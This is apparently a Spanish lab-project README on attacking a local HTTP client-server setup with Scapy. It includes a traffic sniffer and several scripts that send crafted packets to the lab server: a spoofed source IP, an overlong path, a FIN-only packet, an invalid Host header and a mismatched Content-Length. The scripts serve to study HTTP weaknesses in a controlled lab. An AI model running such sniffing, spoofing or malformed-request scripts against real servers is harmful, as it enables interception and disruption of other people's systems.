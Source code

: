 # Atacando la conexion Cliente-Servidor con Scapy
## 📌Descripcion:
En esta ocasion se busca atacar la conexion Cliente-Servidor creada anteriormente con el fin de comprobar las vulnerabilidades de HTTP
## ¿Que vulnerabilidades tiene HTTP?
HTTP tiene varias vulnerabilidades porque no cifra los datos, lo que permite ataques de intercepción como el sniffing. Es susceptible a ataques de intermediario (MITM), donde un atacante puede modificar la información en tránsito. También permite suplantación de identidad, ya que no verifica la autenticidad del emisor. Además, es vulnerable a inyecciones si no se validan correctamente las entradas del usuario.
## ¿Que es Scapy?
Scapy es una herramienta de Python para crear, enviar, capturar y manipular paquetes de red.
## Estructura del pryoecto
+-------------+ (cliente.py dentro de contenedor)         +-------------+
|     PC 2    | ----------------------------------------> |    PC 1     |
| Cliente +   |          HTTP GET (cliente.py)            |  Servidor   |
| Atacante    | <------ respuesta (modificada o no) ------|  Apache     |
| Dockerfile  |                                           | index.html  |
| cliente.py  |                                           | Dockerfile  |
|-------------|                                           +-------------+
| PC 2 fisico |
| sniff.py    |
| mod1.py     |
| mod2.py     |
| in1.py      |
| in2.py      |
| in3.py      |
+-------------+
## 🛠️ Configuración
### 💻 PC 2 (Atacante con Scapy ):
#### Sniff.py
```
from scapy.all import sniff, TCP, IP, Raw

ip_cliente = "172.16.30.103"  
ip_servidor = "172.16.30.64"  
puerto_servidor = 8080  

def packet_callback(packet):

    if packet.haslayer(TCP) and packet.haslayer(Raw):
        ip_layer = packet[IP]
        tcp_layer = packet[TCP]
        data = packet[Raw].load


        if (ip_layer.src == ip_cliente and ip_layer.dst == ip_servidor and tcp_layer.dport == puerto_servidor) or \
           (ip_layer.src == ip_servidor and ip_layer.dst == ip_cliente and tcp_layer.sport == puerto_servidor):
            print(f"Paquete {ip_layer.src}:{tcp_layer.sport} -> {ip_layer.dst}:{tcp_layer.dport}")
            try:
                print(data.decode('utf-8', errors='ignore')) 
            except:
                print("No se pudo decodificar")


sniff(filter="tcp port 8080", prn=packet_callback, store=False)
```
#### in1.py
```
from scapy.all import IP, TCP, send, sr1

ip_dst = "172.16.30.64"
port_dst = 8080
port_src = 12345  

ip = IP(dst=ip_dst)
SYN = TCP(sport=port_src, dport=port_dst, flags="S", seq=1000)
SYN_ACK = sr1(ip/SYN)
ACK = TCP(sport=port_src, dport=port_dst, flags="A", seq=SYN.seq+1, ack=SYN_ACK.seq+1)
send(ip/ACK)


payload = b"FUZZ / HTTP/1.1\r\nHost: 172.16.30.64\r\n\r\n"
send(ip/TCP(sport=port_src, dport=port_dst, flags="PA", seq=ACK.seq, ack=ACK.ack)/payload)
```
#### in2.py
```
from scapy.all import IP, TCP, send, sr1

ip_cliente = "172.16.30.103"
ip_servidor = "172.16.30.64"
puerto_servidor = 8080
puerto_cliente = 12345 


ip = IP(src=ip_cliente, dst=ip_servidor)
SYN = TCP(sport=puerto_cliente, dport=puerto_servidor, flags="S", seq=1000)
SYN_ACK = sr1(ip/SYN)  
ACK = TCP(sport=puerto_cliente, dport=puerto_servidor, flags="A", seq=SYN.seq + 1, ack=SYN_ACK.seq + 1)
send(ip/ACK)  


long_path = b"/" + b"G" * 1500
payload = b"GET " + long_path + b" HTTP/1.1\r\nHost: 172.16.30.64\r\n\r\n"

send(ip/TCP(sport=puerto_cliente, dport=puerto_servidor, flags="PA", seq=ACK.seq, ack=ACK.ack)/payload)

print("Inyección 2 enviada: petición con path largo.")
```
#### mod1.py
``` 
from scapy.all import *

target_ip = "172.16.30.64"
target_port = 8080

def tcp_handshake():
    sport = RandShort()
    ip = IP(dst=target_ip)
    syn = TCP(sport=sport, dport=target_port, flags='S', seq=1000)
    synack = sr1(ip/syn, timeout=2, verbose=0)
    if not synack:
        print("No se recibió SYN-ACK")
        return None, None
    ack = TCP(sport=sport, dport=target_port, flags='A', seq=1001, ack=synack.seq + 1)
    send(ip/ack, verbose=0)
    return ip, sport

def send_fin_only(ip, sport):
    payload = (
        "GET / HTTP/1.1\r\n"
        f"Host: {target_ip}\r\n"
        "User-Agent: mod-tcp-fin\r\n"
        "Connection: close\r\n\r\n"
    )
    tcp = TCP(sport=sport, dport=target_port, flags='F', seq=1001, ack=1)
    packet = ip/tcp/Raw(load=payload)
    send(packet, verbose=0)
    print("[+] Paquete TCP con flag FIN solo enviado.")

def main():
    ip, sport = tcp_handshake()
    if not ip:
        print("Error al establecer conexión TCP")
        return
    send_fin_only(ip, sport)

if __name__ == "__main__":
    main()
```
#### mod2.py
```
from scapy.all import *

target_ip = "172.16.30.64"
target_port = 8080

def tcp_handshake():
    sport = RandShort()
    ip = IP(dst=target_ip)
    syn = TCP(sport=sport, dport=target_port, flags='S', seq=1000)
    synack = sr1(ip/syn, timeout=2, verbose=0)
    if not synack:
        print("No se recibió SYN-ACK")
        return None, None
    ack = TCP(sport=sport, dport=target_port, flags='A', seq=1001, ack=synack.seq + 1)
    send(ip/ack, verbose=0)
    return ip, sport

def send_bad_host(ip, sport):
    payload = (
        "GET / HTTP/1.1\r\n"
        "Host: invalid_host!@#\r\n"
        "User-Agent: mod-bad-host\r\n"
        "Connection: close\r\n\r\n"
    )
    tcp = TCP(sport=sport, dport=target_port, flags='PA', seq=1001, ack=1)
    packet = ip/tcp/Raw(load=payload)
    send(packet, verbose=0)
    print("[+] Paquete HTTP con Host inválido enviado.")

def main():
    ip, sport = tcp_handshake()
    if not ip:
        print("Error al establecer conexión TCP")
        return
    send_bad_host(ip, sport)

if __name__ == "__main__":
    main()
```
#### mod3.py
```
from scapy.all import *

target_ip = "172.16.30.64"
target_port = 8080

def tcp_handshake():
    sport = RandShort()
    ip = IP(dst=target_ip)
    syn = TCP(sport=sport, dport=target_port, flags='S', seq=1000)
    synack = sr1(ip/syn, timeout=2, verbose=0)
    if not synack:
        print("No se recibió SYN-ACK")
        return None, None
    ack = TCP(sport=sport, dport=target_port, flags='A', seq=1001, ack=synack.seq + 1)
    send(ip/ack, verbose=0)
    return ip, sport

def send_bad_content_length(ip, sport):
    body = "Este es un cuerpo más largo que el indicado."
    payload = (
        "POST / HTTP/1.1\r\n"
        f"Host: {target_ip}\r\n"
        "User-Agent: mod-bad-content-length\r\n"
        "Content-Length: 10\r\n" 
        "Connection: close\r\n\r\n" +
        body
    )
    tcp = TCP(sport=sport, dport=target_port, flags='PA', seq=1001, ack=1)
    packet = ip/tcp/Raw(load=payload)
    send(packet, verbose=0)
    print("[+] Paquete HTTP con Content-Length incorrecto enviado.")

def main():
    ip, sport = tcp_handshake()
    if not ip:
        print("Error al establecer conexión TCP")
        return
    send_bad_content_length(ip, sport)

if __name__ == "__main__":
    main()
```

